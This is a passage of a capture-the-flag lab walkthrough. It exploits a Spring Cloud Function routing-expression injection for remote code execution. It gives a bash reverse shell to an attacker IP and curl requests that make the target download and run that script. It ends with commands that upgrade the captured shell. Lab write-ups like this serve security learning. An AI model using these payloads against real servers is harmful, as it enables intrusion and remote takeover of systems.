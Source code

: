 ![Untitled](./images/Untitled11.png)

I craft a bash reverse shell and save it to a file called `exec_me.sh` that I expose via a `python3 -m http.server` webserver.

```bash
#!/bin/bash
bash -i >& /dev/tcp/10.10.14.12/8888 0>&1
```

And the following command downloads this file to the remote machine.

```bash
curl -i -s -k -X 'POST' \
	-H 'Host: 10.10.11.204:8080' \
	-H 'spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("curl http://10.10.14.12:8000/exec_me.sh -o /tmp/exec_me.sh")' \
	--data-binary 'exec_me' 'http://10.10.11.204:8080/functionRouter'
```

To receive the reverse shell from the remote host I start a `netcat` listener on port 8888 (same port as in the bash reverse shell script) on my local machine. To then trigger the exploit:

```bash
curl -i -s -k -X 'POST' \
	-H 'Host: 10.10.11.204:8080' \
	-H 'spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("bash /tmp/exec_me.sh")' \
	--data-binary 'exec_me' 'http://10.10.11.204:8080/functionRouter'
```

## Becoming phil

After sending the request I receive a reverse shell as the frank user on my `netcat` listener. I then proceed to upgrade my shell by executing `python3 -c "import pty; pty.spawn('/bin/bash')` . Then I press `CTRL+Z` to temporarily jump out of the reverse shell and execute `stty raw -echo; fg` which brings me back into my reverse shell. Now I can change the term variable with `export TERM=xterm` and be sure I wont jump out of my reverse shell unexpectedly.
